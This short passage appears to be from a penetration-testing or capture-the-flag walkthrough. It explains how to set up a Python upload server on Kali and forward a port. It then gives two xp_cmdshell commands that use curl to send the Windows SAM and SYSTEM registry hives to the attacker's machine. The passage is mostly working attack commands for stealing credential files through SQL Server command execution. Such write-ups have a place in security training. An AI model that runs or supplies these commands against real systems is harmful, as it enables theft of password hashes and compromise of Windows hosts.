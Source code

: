

Try using python uploadserver. Install with  python3 -m pip install uploadserver . Set up a simple listener listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp. Set up a python uploadserver on Kali with python3 -m uploadserver 80 and upload your SAM and SYSTEM with:
```
xp_cmdshell "curl -X POST http://10.10.108.147/upload -F files=@"C:\windows.old\Windows\System32\SAM""
xp_cmdshell "curl -X POST http://10.10.108.147/upload -F files=@"C:\windows.old\Windows\System32\SYSTEM
```
